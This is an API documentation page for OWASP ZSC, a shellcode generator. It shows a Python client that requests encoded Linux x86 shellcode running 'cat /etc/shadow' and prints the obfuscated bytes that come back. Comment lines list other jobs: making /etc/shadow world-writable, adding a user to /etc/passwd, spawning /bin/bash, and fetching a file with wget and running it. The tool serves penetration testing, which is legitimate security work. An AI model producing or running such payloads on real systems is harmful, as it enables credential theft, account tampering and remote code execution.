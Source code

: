 ```yaml
---
layout: page
title: "API"
date: 2015-09-26 13:36
comments: true
sharing: true
footer: true
---
```

OWASP ZSC is available now in <a href="http://api.z3r0d4y.com">api.z3r0d4y.com</a>.<br/>
It's very simple to communicate with OWASP ZSC API. You have to using POST method and fill the values.<br/> 
Code Example:
```python
#http://zsc.z3r0d4y.com/api
import httplib, urllib
params = urllib.urlencode({
						'api_name': 'zsc',#it's API name, if you want use OWASP ZSC, You must fill it with 'zsc' 
						'os': 'linux_x86',# os name here
						'job': 'system(\'cat[space]/etc/shadow\')',
						'encode': 'add_random'}) #encoding type
						#function to use [ support: All except "script_executor()" ]
						#to see available features visit: http://zsc.z3r0d4y.com/table.html
						#inputs: same argv in terminal http://zsc.z3r0d4y.com/wiki/
						#>zsc -os linux_x86 -encode none -job "system('ls')" -o file.txt
						#>zsc -os linux_x86 -encode xor_random -job "system('ls[space]-la')" -o file.txt
						#>zsc -os linux_x86 -encode xor_0x41414141 -job "system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file')" -o file.txt
						#>zsc -os linux_x86 -encode add_random -job "system('wget[space]file;sh[space]file')" -o file.txt
						#>zsc -os linux_x86 -encode mix_all -job "chmod('/etc/shadow','777')" -o file.txt
						#>zsc -os linux_x86 -encode inc -job "write('/etc/passwd','user:pass')" -o file.txt
						#>zsc -os linux_x86 -encode dec_11 -job "exec('/bin/bash')" -o file.txt
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:41.0) Gecko/20100101 Firefox/41.0'}
conn = httplib.HTTPConnection('api.z3r0d4y.com')
conn.request("POST", "", params, headers)
response = conn.getresponse()
shellcode = response.read().replace('\n','')
print shellcode
```
output:
```python
C:\Users\Ali\Desktop>zsc-api.py
\x31\xd2\x52\x68\x45\x32\x76\x78\x5b\x68\xb5\xcd\x06\x01\x58\xf7\xd8\x01\xd8\x50\x59\xc1\xe9\x08\x51\x68\x6e\x36\x6a\x65\x5b\x68\x3f\xc3\x01\x04\x58\xf7\xd8\x01\xd8\x50\x68\x66\x36\x58\x78\x5b\x68\x37\xd1\xe3\x14\x58\xf7\xd8\x01\xd8\x50\x68\x61\x75\x49\x31\x5b\x68\xfe\x13\xd5\x10\x58\xf7\xd8\x01\xd8\x50\x89\xe6\x52\x68\x75\x47\x77\x6e\x5b\x68\xe5\xb6\x49\x0b\x58\xf7\xd8\x01\xd8\x50\x59\xc1\xe9\x10\x51\x89\xe1\x52\x6a\x68\x68\x56\x33\x72\x78\x5b\x68\x27\xd1\x10\x05\x58\xf7\xd8\x01\xd8\x50\x68\x4c\x56\x71\x73\x5b\x68\x1d\xf4\x07\x05\x58\xf7\xd8\x01\xd8\x50\x89\xe3\x52\x57\x56\x51\x53\x89\xe1\x6a\x09\x58\x83\xc0\x02\x99\xcd\x80

C:\Users\Ali\Desktop>
```
Anyone can use this API on softwares or any OS which not supported to generate shellcodes.

Thank you.

<a href="mailto:Ali[dot]Razmjoo[at]Owasp[dot]Org">Ali Razmjoo</a>
